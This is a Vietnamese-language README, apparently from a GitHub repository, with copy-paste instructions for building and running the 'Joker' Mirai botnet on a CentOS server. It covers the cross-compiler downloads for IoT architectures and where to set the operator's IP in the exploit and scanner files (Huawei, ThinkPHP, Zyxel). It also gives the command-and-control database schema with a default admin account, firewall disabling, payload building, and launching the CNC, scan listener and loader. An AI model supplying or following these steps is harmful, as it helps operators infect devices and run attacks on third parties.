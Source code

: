 - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mọi thứ trên centos
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt Golang:

```
rm -rf /usr/local/go
```
```
wget https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz
```
nếu lỗi không tải xuống thì cài đặt wget
```
sha256sum go1.10.3.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.10.3.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
```
```
source ~/.bash_profile
```
```
rm -rf go1.10.3.linux-amd64.tar.gz
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2; 
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
```
```
rm -rf *.tar.bz2
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
```
```
cd /tmp
wget https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz -q
tar -xzf go1.8.3.linux-amd64.tar.gz
mv go /usr/local/go
cd ~/
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Thay đổi IP ```173.232.146.173``` thành IP của VPS

```/bot/huawei.c``` (dòng 271)

```/bot/thinkphp.c``` (dòng 277)

```/bot/zyxel_scanner.c``` (dòng 278)

```/bot/includes.h```  (4 địa điểm)

```/cnc/main.go``` 

```/dlr/main.c```  (để dấu , trong IP)

```/loader/src/main.c``` (Dòng 30, 31, Hai lần trên 42)

```/scanListen.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mysql tạo mật khẩu root

```
yum install mariadb-server -y
```
```
systemctl start mariadb.service
```
```
mysql_secure_installation
```
VÀ THAY ĐỔI MẬT KHẨU MYSQL CỦA BẠN TRONG ```cnc/main.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Đăng nhập vào mysql:

```
mysql -pMẬT KHẨU CỦA BẠN
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Tạo cơ sở dữ liệu:
```
CREATE DATABASE Joker;
use Joker;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 ```
 ```
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 ```
 ```
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
```
```
INSERT INTO users VALUES (NULL, 'clown', 'clown1337', 0, 0, 0, 0, -1, 1, 30, '');
```
```
CREATE TABLE `logins` (
  `id` int(11) NOT NULL,
  `username` varchar(32) NOT NULL,
  `action` varchar(32) NOT NULL,
  `ip` varchar(15) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
exit;
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
service firewalld stop
iptables -F;service iptables stop 
```
```
service httpd restart  
```
```
service mariadb restart
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999

SAU ĐÓ LƯU BẰNG: ctrl X rồi Y

Sao chép & Dán 
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán: 
```
cd ~/; chmod 0777 * -R; sh build.sh
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
python payload.py; service httpd restart 
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd ~/
screen -S cnc ./cnc
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd loader/
screen -S rep ./scanListen 
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
screen -S loader
./run.sh
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[Nguồn](https://github.com/USBBios/Joker-Mirai-Botnet-Source-V1)
